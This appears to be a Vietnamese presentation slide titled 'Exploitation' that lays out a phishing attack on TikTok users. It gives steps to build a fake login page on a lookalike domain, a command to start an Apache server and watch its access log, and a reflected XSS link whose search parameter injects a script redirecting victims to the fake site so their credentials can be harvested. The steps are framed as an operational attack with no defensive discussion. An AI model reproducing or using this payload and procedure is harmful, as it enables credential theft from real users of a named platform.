

# Khai thác
Trước tiên tạo một trang đăng nhập giả mạo giống với nền tảng tấn công(tiktok) -> đăng kí một tên miền giả mạo www.tiktik-ads.com ( ads.tiktik.com)
Khởi động máy chủ và theo dõi log :
 service apache2 start && tail -f /var/log/access.log
Gửi link đọc hại cho nạn nhân :
https://ads.tiktik.com/help/search?q=<script>document.location = 'www.tiktik-ads.com';</script>

Link này sẽ chuyển hướng nạn nhân đến trang web giả mạo mà attacker đã chuẩn bị sẵn .
Khi nạn nhân đăng nhập attacker sẽ có được thông tin tài khoản của nạn nhân dựa vào tệp nhật kí.